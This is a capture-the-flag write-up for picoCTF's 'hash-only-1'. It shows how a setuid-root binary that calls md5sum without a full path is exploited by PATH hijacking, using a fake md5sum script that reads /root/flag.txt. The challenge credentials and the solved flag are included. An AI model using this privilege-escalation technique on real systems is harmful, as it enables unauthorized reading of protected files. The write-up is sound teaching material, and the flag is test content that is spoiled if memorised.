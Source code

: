 # hash-only-1

## Challenge Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Connect using ssh ctf-player@shape-facility.picoctf.net -p 51822 with the password, a15d25e1 and run the binary named "flaghasher".
You can get a copy of the binary if you wish: scp -P 51822 ctf-player@shape-facility.picoctf.net:~/flaghasher 

## Solution

I connected to the program with the given password. I started by running the command `ls -l ~/flaghasher` revealed that it was owned by root, but it had the setuid bit set which means that whenever any user runs this binary, it executes with root permissions 

```bash
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.8.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls -l ~/flaghasher
-rwsr-xr-x 1 root root 18312 Mar  6 03:45 /home/ctf-player/flaghasher
```

I wanted to know what this binary does internally, so I used `strings` command

```bash
ctf-player@pico-chall$ strings flaghasher
/lib64/ld-linux-x86-64.so.2
z`+Ep
'0x${
libstdc++.so.6
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
_ZNSolsEi
_ZNSaIcED1Ev
_ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_
_ZNSt8ios_base4InitD1Ev
_ZNSolsEPFRSoS_E
_ZSt4cerr
__gxx_personality_v0
_ZNSaIcEC1Ev
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc
_ZNSt8ios_base4InitC1Ev
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev
_ZSt4cout
libgcc_s.so.1
_Unwind_Resume
libc.so.6
setuid
__stack_chk_fail
__cxa_atexit
system
sleep
__cxa_finalize
setgid
__libc_start_main
GCC_3.0
GLIBC_2.4
GLIBC_2.2.5
CXXABI_1.3
GLIBCXX_3.4
GLIBCXX_3.4.21
u+UH
[]A\A]A^A_
Computing the MD5 hash of /root/flag.txt....
/bin/bash -c 'md5sum /root/flag.txt'
Error: system() call returned non-zero value:
:*3$"
zPLR
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
src.cpp
_ZStL19piecewise_construct
_ZStL8__ioinit
_Z41__static_initialization_and_destruction_0ii
_GLOBAL__sub_I_main
__FRAME_END__
__GNU_EH_FRAME_HDR
_DYNAMIC
__init_array_end
__init_array_start
_GLOBAL_OFFSET_TABLE_
_edata
_IO_stdin_used
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv@@GLIBCXX_3.4.21
__cxa_finalize@@GLIBC_2.2.5
_ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_@@GLIBCXX_3.4
__dso_handle
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev@@GLIBCXX_3.4.21
DW.ref.__gxx_personality_v0
sleep@@GLIBC_2.2.5
system@@GLIBC_2.2.5
__cxa_atexit@@GLIBC_2.2.5
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@@GLIBCXX_3.4
_ZNSolsEPFRSoS_E@@GLIBCXX_3.4
_ZNSaIcED1Ev@@GLIBCXX_3.4
__stack_chk_fail@@GLIBC_2.4
__TMC_END__
_ZSt4cout@@GLIBCXX_3.4
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_@@GLIBCXX_3.4.21
__data_start
__bss_start
_ZNSt8ios_base4InitC1Ev@@GLIBCXX_3.4
__libc_csu_init
__gxx_personality_v0@@CXXABI_1.3
_ZNSolsEi@@GLIBCXX_3.4
_ITM_deregisterTMCloneTable
_Unwind_Resume@@GCC_3.0
_ZNSaIcEC1Ev@@GLIBCXX_3.4
setgid@@GLIBC_2.2.5
__libc_csu_fini
__libc_start_main@@GLIBC_2.2.5
__gmon_start__
setuid@@GLIBC_2.2.5
_ITM_registerTMCloneTable
_ZSt4cerr@@GLIBCXX_3.4
_ZNSt8ios_base4InitD1Ev@@GLIBCXX_3.4
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.gcc_except_table
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

So the binary uses Bash to run the command `md5sum /root/flag.txt` and since it’s running as root, it has access to `/root/flag.txt`. It was clear now that I'll have to somehow hijack the `md5sum` command to make it print the contents of `/root/flag.txt` 

I decided to trick the shell into using my version of md5sum by modifying the `PATH` environment variable. For that I'll have to create a custom script named `md5sum` and make it executable

```bash
ctf-player@pico-chall$ mkdir ~/fakebin
ctf-player@pico-chall$ nano ~/fakebin/md5sum
-bash: nano: command not found
ctf-player@pico-chall$ vi ~/fakebin/md5sum
-bash: vi: command not found
ctf-player@pico-chall$ echo -e '#!/bin/bash\ncat /root/flag.txt' > ~/fakebin/md5sum
ctf-player@pico-chall$ chmod +x ~/fakebin/md5sum
```
Now, to make sure this `md5sum` is used instead of the real one, I updated the `PATH` environment variable so that my `fakebin` directory comes first 

```bash
ctf-player@pico-chall$ export PATH=/home/ctf-player/fakebin:$PATH
```

Finally, I ran the binary 

```bash
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}ctf-player@pico-chall$ Connection to shape-facility.picoctf.net closed by remote host.
Connection to shape-facility.picoctf.net closed.
```

Thus the flag for this challenge is `picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}`
